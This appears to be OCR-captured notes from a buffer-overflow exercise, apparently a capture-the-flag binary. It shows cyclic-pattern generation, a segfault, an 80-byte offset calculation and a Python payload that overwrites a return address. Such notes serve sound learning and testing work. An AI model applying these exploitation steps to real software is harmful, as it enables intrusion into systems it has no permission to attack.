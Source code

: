 


./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??



run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')

there is no system() therefore no shell to jump to

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175

unhex 61616175 | rev ; echo ""
uaaa

cyclic -l uaaa
80
